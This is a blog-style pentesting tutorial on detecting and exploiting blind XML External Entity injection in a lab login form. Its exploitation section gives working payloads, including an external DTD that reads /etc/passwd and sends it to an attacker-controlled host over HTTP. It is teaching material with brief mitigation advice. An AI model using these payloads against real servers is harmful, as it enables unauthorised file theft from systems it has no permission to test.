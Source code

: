 ```yaml
---
title: Blind XML External Entity
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, XML External Entity]
tags: [webapp, pentesting, Owasp,xxe, blind,xml, xml external entity]     # TAG names should always be lowercase
---
```


# Blind XML External Entity

***Blind XXE vulnerabilities*** arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible.

# Detecting Blind XML External Entity

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe1.png)

This is a basic login form with username and password, Let's attempt to supply username and password and intercept the request in our burpsuite.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe2.png)

As you can see, we received `invalid username and password` because our credentials are incorrect.

## XML Parser

Let's try to find blind xxe vulnerability here, we are going to supply incorrect xml to our target. To do that, we will change the value of `Content-Type` to `text/xml` which will look like this `Content-Type: text\xml`. This content-type will indicate to the server that we are supplying `xml` data.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe3.png)

We received `Invalid XML` from the server, this is because we supplied an incorrect xml data `username=exploit&password=payload` to the server which the xml parser can't able to process it. This error message proved that the backend is using `xml parser` to process user's data.

Let's attempt to fix the error by supplying correct xml data to the server.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe4.png)

After supplying correct xml data, we were able to fix the error, proving the backend is using xml parser to process users's data.

## XML Entity.

To determine whether or not `XML Entity` is enabled, We will supply the following payload, which if successfull will send a request to our web server.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % ping SYSTEM "http://[your_host]"> %ping;]>
	<test>
		redteam
	</test>
	
```
![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5.png)

As you can see we were able to receive a response from our target, implying that `XML Entity` is enabled.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5kali.png)

# Exploitation

## Data Exfiltration

Given that `xml entity` is enabled, we can take advantage of it to exfiltrate data from our target server. We will make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request. To do that, we will host our malicous DTD file at port 9090 and use port 90 to receive the exfiltrated data.

here is the content of our malicous DTD that will be used to exfiltrate content of `/etc/passwd` file.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.42.0.1:90/?x=%file;'>">
%eval;
%exfiltrate;
```

We will supply the following payload to our target.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % data SYSTEM "http://10.42.0.1:9090/payload.dtd"> %data;]>
	<test>
		redteam
	</test>
```

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe6.png)

The below image shows the content of `/etc/passwd` has been exfiltrated from the target.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe7kali2.png)

# Mitigations

- Disable DTDs (External Entities) completely.

# References

- [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
- [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
